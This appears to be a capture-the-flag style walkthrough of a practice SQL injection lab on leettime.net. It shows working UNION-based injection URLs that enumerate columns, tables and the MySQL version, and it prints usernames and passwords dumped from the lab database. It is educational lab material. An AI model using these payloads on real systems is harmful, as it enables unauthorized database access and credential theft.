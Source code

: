 <h3>**Challenge 1**</h3>

**Step 1<br>** 
Challenge Link-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1``` 

**Step 2<br>**
Find out all users-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+OR+'1'='1``` 

**Step 3<br>**
Use ORDER BY clause to find out the number of columns in the current table-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+ORDER+BY+3--+ ```

**Step 4<br>**
Now that we know how many columns the current table has, we will use UNION to see which column is vulnerable. UNION SELECT is used to combine results from multiple SELECT statements into a single result. The vulnerable column is the one whose data is being displayed on the page-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,2,3--+``` 

The number 2 is printed, hence, it is the vulnerable column.<br> 

**Step 5<br>** 
Show MySQL version-<br>
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,version(),3--+```<br>
Result-<br>  
```5.6.44-cll-lve``` 

**Step 6<br>**
Find out the table names-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3--+```<br>
```Result- testtable1,userlogs,users```<br>
group_concat - Concatenate results into a string <br>
Information_schema - Database that stores information about other databases <br>
 
**Step 7<br>**
Find the password for users- 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+password+FROM+users+WHERE+ID=1),3--+ ```<br>
```Result-``` <br>
```Username is : injector```<br> 
```Username is : khan``` <br>

**Step 8<br>**
Username and password for all users-<br> 
```http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=1'+UNION+SELECT+1,(SELECT+group_concat(username,0x0a,password)+FROM+users+WHERE+ID=1+OR+1=1),3--+ ``` <br>
<br>Format- [username password] <br>
```Result-```<br>
```Username is : injector khan,decompiler hacktract,devilhunte dante,Zen sec-idiots,Zenodermus security-i,grayhat hacker,khan haxor,admin sadmin``` 
